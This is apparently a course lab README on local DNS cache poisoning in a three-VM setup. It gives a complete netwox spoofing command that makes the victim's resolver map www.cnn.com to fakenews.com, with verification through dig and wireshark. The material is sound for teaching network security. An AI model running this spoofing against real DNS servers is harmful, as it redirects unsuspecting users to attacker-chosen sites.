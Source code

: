 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. On DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. On DNS Server: remove existing cache:

```console
# sudo rndc flush
```

this screenshot shows the commands to start the server and flush the cache.

![alt text](lab-dns-start-server.png "start server and flush cache")

3. On Victim Client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your Victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

![alt text](lab-dns-edit-file.png "edit the file")

![alt text](lab-dns-configure-dns.png "configure dns")

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

4. On Attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

Explanation: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:

![alt text](lab-dns-attack-command.png "attack command")

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on Victim Client, send a query.

```console
# dig www.cnn.com 
```

these two screenshots show the attack is successful: www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.
![alt text](lab-arp-attack-success-p1.png "attack success")
![alt text](lab-arp-attack-success-p2.png "attack success")

6. Stop the attack - press control-c on the Attacker VM's terminal. On Victim Client, open wireshark and repeat step 5 (i.e. run the dig command again), from the packets captured in wireshark, confirm the attack is still successful, and the forged response is indeed from the Victim DNS server.

![alt text](lab-dns-attack-success-after-ctrl-c.png "attack still success")

7. You are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

